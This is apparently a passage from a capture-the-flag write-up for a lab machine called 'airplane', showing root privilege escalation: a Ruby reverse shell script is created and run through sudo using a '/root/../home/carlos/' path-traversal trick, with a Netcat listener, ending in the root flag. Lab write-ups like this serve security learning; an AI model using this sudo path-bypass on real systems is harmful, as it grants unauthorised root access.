 ![Pasted image 20250722171025.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250722171025.png)

We [Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md) it in the target machine and make it executable :

```bash
carlos@airplane:~$ nano shell.rb
carlos@airplane:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  shell.rb  Templates  user.txt  Videos
carlos@airplane:~$ chmod +x shell.rb 
```

We setup the [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener and we execute with the path :

```bash
carlos@airplane:~$ sudo /usr/bin/ruby /root/../home/carlos/shell.rb

# cat /root/root.txt
190dcbeb688ce5fe029f26a1e5fce002
```

Pwned !!


